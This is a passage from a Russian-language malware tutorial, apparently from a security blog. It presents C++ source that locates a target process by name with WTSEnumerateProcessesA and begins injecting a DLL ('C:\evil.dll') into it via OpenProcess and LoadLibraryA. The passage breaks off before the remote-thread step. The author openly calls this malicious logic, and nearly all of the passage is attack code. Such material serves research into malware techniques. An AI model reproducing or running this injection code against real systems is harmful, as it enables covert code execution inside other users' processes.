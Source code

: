 ### практический пример 2. поиск и инъекция

Давайте рассмотрим другой пример с вредоносной логикой. Найдём идентификатор процесса по имени и внедрим в него DLL.      

Исходный код аналогичен моему [посту](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) или [этому](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html). Единственное отличие - это логика функции `findMyProc` (`hack2.c`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by WTSEnumerateProcessesA and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/07/07/malware-tricks-34.html
*/
#include <windows.h>
#include <stdio.h>
#include <wtsapi32.h>
#pragma comment(lib, "wtsapi32.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int findMyProc(const char * procname) {
  int pid = 0;
  WTS_PROCESS_INFOA * pi;

  DWORD level = 1; // we want WTSEnumerateProcesses to return WTS_PROCESS_INFO_EX
  DWORD count = 0;

  if (!WTSEnumerateProcessesA(WTS_CURRENT_SERVER_HANDLE, 0, level, &pi, &count))
    return 0;

  for (int i = 0 ; i < count ; i++ ) {
    if (lstrcmpiA(procname, pi[i].pProcessName) == 0) {
      pid = pi[i].ProcessId;
      break;
    }
  }

  WTSFreeMemory(pi);
  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }
```